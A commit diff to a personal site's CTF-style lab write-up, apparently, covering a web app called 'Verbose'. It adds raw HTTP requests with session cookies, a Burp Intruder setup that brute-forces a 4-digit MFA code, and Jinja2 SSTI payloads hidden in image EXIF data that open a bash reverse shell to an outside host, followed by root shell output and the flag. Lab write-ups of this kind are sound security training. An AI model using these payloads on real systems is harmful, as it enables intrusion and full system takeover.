

Before and after one commit to d4rkto0th/d4rkto0th.github.io, a Jekyll site: the page built from labs/webapp/Verbose.md, in a window 1280 px wide and 1400 px high, scrolled down 6111 px. Shown: the whole window at 96% size, without its empty margins (190-1089 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Verbose.md

````diff
--- a/labs/webapp/Verbose.md
+++ b/labs/webapp/Verbose.md
@@ -129,7 +130,16 @@ Created a standard user account via registration
 
 ```http
 GET /api/users/all HTTP/1.1
-Host: [target]
+Host: 10.1.148.204
+User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
+Accept: */*
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate, br
+Referer: http://10.1.148.204/admin/dashboard
+Connection: keep-alive
+Cookie: session=.eJyrVirKz0lVslJKTMnNzFPSUSpOLS7OzM-Lz0wBCRqkWZgmJpnpmqSZGuiamBha6CamGRvrphoYWaSaGhgbpiQlAfWUFqcWwY2oBQAlLhit.aXQNjw.brj1k9EA3pF9dV6otyQYtHEsUYM
+X-PwnFox-Color: blue
+Priority: u=4
 ```
 
 **Response:**
@@ -159,11 +169,23 @@ Attempted admin login but account protected by MFA (4-digit code).
 **Burp Intruder Configuration:**
 
 ```
-POST /admin/verify-mfa HTTP/1.1
-Host: [target]
+POST /mfa HTTP/1.1
+Host: 10.1.148.204
+User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate, br
 Content-Type: application/x-www-form-urlencoded
+Content-Length: 9
+Origin: http://10.1.148.204
+Connection: keep-alive
+Referer: http://10.1.148.204/mfa
+Cookie: session=eyJtZmFfdXNlciI6ImFkbWluIiwic2Vzc2lvbl9pZCI6ImEwZjg1YWI2LTRmNTAtNDQxOC1hZjMzLWUwMjhlNTAzMWRiYiJ9.aXQLlg.jRkZcwNEVTsgYnDXu58wRHduDo8
+Upgrade-Insecure-Requests: 1
+X-PwnFox-Color: blue
+Priority: u=0, i
 
-code=§0001§
+code=§1234§
 ```
 
 - **Payload:** Numbers 0001-9999
@@ -215,6 +237,59 @@ nc -lvnp 4444
 
 ```bash
 convert -size 1x1 xc:white /tmp/shell.png
+exiftool -Artist='{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("bash -c \"bash -i >& /dev/tcp/10.200.31.196/4444 0>&1\"").read() }}' /tmp/shell.png
+```
+
+**Execution:**
+1. Uploaded `shell.png` with SSTI payload
+2. Triggered `/admin/logo_preview?file=shell.png`
+3. Received root shell on netcat listener
+
+### Step 6: Flag Capture
+
+```bash
+──(kali㉿kali)-[~/]
+└─$ nc -nvlp 4444
+Listening on 0.0.0.0 4444
+Connection received on 10.1.148.204 35700
+bash: cannot set terminal process group (610): Inappropriate ioctl for device
+bash: no job control in this shell
+root@ip-10-1-148-204:/home/ubuntu# ll /root
+ll /root
+total 40
+drwx------  5 root root 4096 Jan 20 19:25 ./
+drwxr-xr-x 22 root root 4096 Jan 23 23:54 ../
+-rw-------  1 root root  145 Jan 24 00:44 .bash_history
+-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
+-rw-------  1 root root   20 Jan 11 03:19 .lesshst
+drwxr-xr-x  3 root root 4096 Jan 20 19:25 .local/
+-rw-r--r--  1 root root  161 Apr 22  2024 .profile
+drwx------  2 root root 4096 Jan 10 17:49 .ssh/
+-rw-r--r--  1 root root   18 Jan 20 19:25 root.txt
+drwx------  3 root root 4096 Jan 10 17:49 snap/
+```
+
+```bash
+root@ip-10-1-148-204:/home/ubuntu# cat /root/root.txt
+cat /root/root.txt
+HSM{a3fec2e83dad}
+```
+
+> **⚠️ Note:** Server was running as root - no privilege escalation required. This is a critical misconfiguration.
+
+---
+
+## Flag / Objective Achieved
+
+✅ **Objective:** Gained root shell via SSTI in EXIF metadata rendering
+
+✅ **Flag:** Retrieved from `/root/root.txt`
+
+---
+**Alternative Payload**
+
+```bash
+convert -size 1x1 xc:white /tmp/shell.png
 exiftool -Artist='{{lipsum.__globals__.os.popen("bash -c \"bash -i >& /dev/tcp/10.200.31.196/4444 0>&1\"").read()}}' /tmp/shell.png
 ```
 
@@ -234,32 +309,7 @@ exiftool -Artist='{{lipsum.__globals__.os.popen("bash -c \"bash -i >& /dev/tcp/1
 - Often not filtered (unlike `config`, `request`, `self`)
 - Provides access to imported modules like `os`
 
-**Execution:**
-1. Uploaded `shell.png` with SSTI payload
-2. Triggered `/admin/logo_preview?file=shell.png`
-3. Received root shell on netcat listener
-
-### Step 6: Flag Capture
-
-```bash
-id
-# uid=0(root) gid=0(root) groups=0(root)
-
-cat /root/root.txt
-# FLAG{...}
-```
-
-> **⚠️ Note:** Server was running as root - no privilege escalation required. This is a critical misconfiguration.
-
----
-
-## Flag / Objective Achieved
-
-✅ **Objective:** Gained root shell via SSTI in EXIF metadata rendering
-
-✅ **Flag:** Retrieved from `/root/root.txt`
-
----
+--
 
 ## Key Learnings
 
@@ -452,7 +502,7 @@ mv test.png '{{7*7}}.png'
 
 **SSTI Resources:**
 - [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
-- [HackTricks - SSTI](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/)
+- [HackTricks - SSTI](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
 - [PortSwigger - Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
 
 **EXIF Exploitation:**
````
Also changed, not shown: other parts of labs/webapp/Verbose.md (+5 -4 lines).
